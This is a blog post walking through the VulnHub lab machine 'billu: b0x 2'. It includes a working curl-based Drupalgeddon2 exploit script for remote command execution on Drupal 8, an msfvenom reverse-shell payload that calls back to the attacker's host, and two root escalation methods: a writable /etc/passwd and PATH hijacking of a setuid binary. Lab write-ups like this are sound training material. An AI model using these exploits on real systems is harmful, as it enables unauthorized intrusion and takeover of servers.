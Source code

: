 ```yaml
---
layout: post
title: "billu: b0x 2 Walkthrough"
subtitle: "Man, I Need a New Hobby"
date: 2018-09-22 18:25:01 +0000
last_modified_at: 2018-09-22 18:37:16 +0000
category: Walkthrough
tags: [VulnHub, billu]
comments: true
image:
  feature: billu-b0x-2-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/soap-bubble-colorful-ball-824558/
---
```


This post documents the complete walkthrough of billu: b0x 2, a boot2root [VM][1] created by [Manish Kishan Tanwar][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Try this if you want an OSCP refresher that's not too difficult.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e6:3e:0d:ca:5c:3e:57:f8:1d:e6:e6:c5:3b:b3:67:b5 (DSA)
|   2048 ee:ef:3e:03:3a:24:f8:9f:35:4f:3a:9a:6f:64:a5:f5 (RSA)
|   256 af:60:d8:cb:90:08:63:4b:d3:7b:04:d3:7c:db:cf:bf (ECDSA)
|_  256 c0:56:96:d2:62:52:ea:9f:7f:d8:2a:7a:6b:1b:bd:56 (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-methods:
|_  Supported Methods: GET POST HEAD OPTIONS
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/
| /user/password/ /user/login/ /user/logout/ /index.php/admin/
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Home | --==[[ Billu b0x 2 - with love from indishell Lab ]]==--
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42940/udp  status
|_  100024  1          45103/tcp  status
8080/tcp  open  http    syn-ack ttl 64 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
45103/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds a couple of open ports. Nothing unusual. Let's take a look at the web-related ones. The metadata in the HTML source tells me I'm looking at a Drupal 8 installation.

![9cbbd925.png](/assets/images/posts/billu-b0x-2-walkthrough/9cbbd925.png)

### Drupalgeddon

Suffice to say, the first thought that comes to my mind is Drupalgeddon. Since this is Drupal 8, I'll give EDB-ID [44448](https://www.exploit-db.com/exploits/44448/) a shot. It's a proof-of-concept code written in Python that tests for remote command execution. It writes a file and then checks for the file's existence. In any case, it's easy to rewrite it in `bash`. i.e. wrap the script around `curl` and re-purpose it to take in an argument—any shell command.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

RHOST=192.168.30.129
URL="http://$RHOST/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
CMD=$1

STATUS=$(curl -s \
              -o /dev/null \
              -w %{http_code} \
              --data-urlencode "form_id=user_register_form" \
              --data-urlencode "_drupal_ajax=1" \
              --data-urlencode "mail[#post_render][]=exec" \
              --data-urlencode "mail[#type]=markup" \
              --data-urlencode "mail[#markup]=$CMD" \
              $URL)

if [ $STATUS -eq 200 ]; then
  echo "[+] Exploit Successful"
else
  echo "[!] Exploit Failed"
fi
```

Time to run my exploit script.

_On my exploit script terminal_

![1bc5fcfa.png](/assets/images/posts/billu-b0x-2-walkthrough/1bc5fcfa.png)

_On my `nc` listener_

![95bbd761.png](/assets/images/posts/billu-b0x-2-walkthrough/95bbd761.png)

You can see the remote command executed successfully.

Next, I'll make use of `wget` to transfer a reverse shell (generated by `msfvenom`), make it executable with `chmod`, and then execute it.

You can generate the reverse shell with `msfvenom` like so.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rev
```

_On my exploit script terminal_

![cd2272c1.png](/assets/images/posts/billu-b0x-2-walkthrough/cd2272c1.png)

_On my SimpleHTTPServer terminal_

![743c9c3d.png](/assets/images/posts/billu-b0x-2-walkthrough/743c9c3d.png)

_On my `nc` listener_

![0e917b2f.png](/assets/images/posts/billu-b0x-2-walkthrough/0e917b2f.png)

I got shell.

## Privilege Escalation

Long story short. Once you have a low-privilege shell, there are two ways to gain `root` privileges.

***Method 1: world-writable `/etc/passwd`***

How do you know `/etc/passwd` is world-writable? Simple.

![07134282.png](/assets/images/posts/billu-b0x-2-walkthrough/07134282.png)

So what if `/etc/passwd` is world-writable? What can you do with it? Enough to be dangerous.

![2a7227b9.png](/assets/images/posts/billu-b0x-2-walkthrough/2a7227b9.png)

`su` to `toor`. Password is `toor`.

![1a61b268.png](/assets/images/posts/billu-b0x-2-walkthrough/1a61b268.png)

***Method 2: `/opt/s` is `setuid` to `root`***

How do you know `/opt/s` is `setuid` to `root`? Simple.

![6ce80208.png](/assets/images/posts/billu-b0x-2-walkthrough/6ce80208.png)

Check out the strings in the executable. This is classic—hijacking the default executable search path.

![d7faf243.png](/assets/images/posts/billu-b0x-2-walkthrough/d7faf243.png)

`scp` is not specified in absolute path. We can easily trick the shell to search for a `PATH` we specified first. Heck, we don't even have to compile any code. Any shell script that start with `#!` will suffice, as long as it's called `scp`.

![5d60d36e.png](/assets/images/posts/billu-b0x-2-walkthrough/5d60d36e.png)

:dancer:

## Afterthought

A good way to kill time.

[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
